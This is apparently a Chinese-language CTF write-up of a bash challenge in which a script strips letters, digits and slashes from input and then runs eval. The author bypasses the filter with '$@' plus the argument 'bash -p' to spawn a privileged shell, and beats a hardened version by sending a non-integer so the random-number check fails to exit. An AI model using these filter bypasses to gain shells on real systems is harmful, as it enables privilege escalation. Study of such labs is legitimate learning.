 好久没打过靶机了，也没更新过，今天在群里看到了群主发了一个题目就玩了一下，顺便水一期wp

题目：

![image-20250322153403638](https://7r1umphk.github.io/image/20250322153403675.png)

```
PATH=/usr/bin
read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

浅瞄了一眼，发现tr删除了所有字母、数字和斜杠，但保留特殊符号，那就有搞头

ps:$@ 在 Shell 中表示脚本的所有参数，可被 eval 解析。



我们可以构造输入$@，绕过字符过滤。然后再传递参数bash -p启动特权Shell。

解法：

```
echo '$@' | ./a.sh 'bash -p'
```

但是我的不是预期解

![image-20250322153428456](https://7r1umphk.github.io/image/20250322153428487.png)

![image-20250322153442791](https://7r1umphk.github.io/image/20250322153442822.png)

这两个是预期的

然后.....

![image-20250322153453994](https://7r1umphk.github.io/image/20250322153454035.png)

加强版：

```
#!/bin/bash

PATH=/usr/bin

a=$((RANDOM%100))

echo $a

read -r INPUTS


if [[ "$INPUTS" -ne "$a" ]]; then
    exit 1
fi

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

加了一个随机数，我本身是说爆破的......

![image-20250322153509806](https://7r1umphk.github.io/image/20250322153509848.png)

然后后面有空瞄了几眼，因为我知道它在进行整数的比较，那我就在想如果输入一个非整数会怎么样，然后......

![image-20250322153523210](https://7r1umphk.github.io/image/20250322153523241.png)

有戏

![image-20250322153725388](https://7r1umphk.github.io/image/20250322153725419.png)

然后我后面我想找一下这方面的资料，但是我没找到，我打算明天再去问问群主，因为他bash比较好（不过我感觉他会自己来看我的wp）

目前我的理解是当使用-ne比较非数字字符串时，Bash会尝试将两边转换为整数。如果转换失败，就会报错什么的，[[ ]]表达式的结果会被视为false，因为比较操作本身无效，导致整个条件判断为假，因此不执行exit 1。



不管了，睡觉，等群主给我解惑了

<!-- ##{"timestamp":1740728321}## -->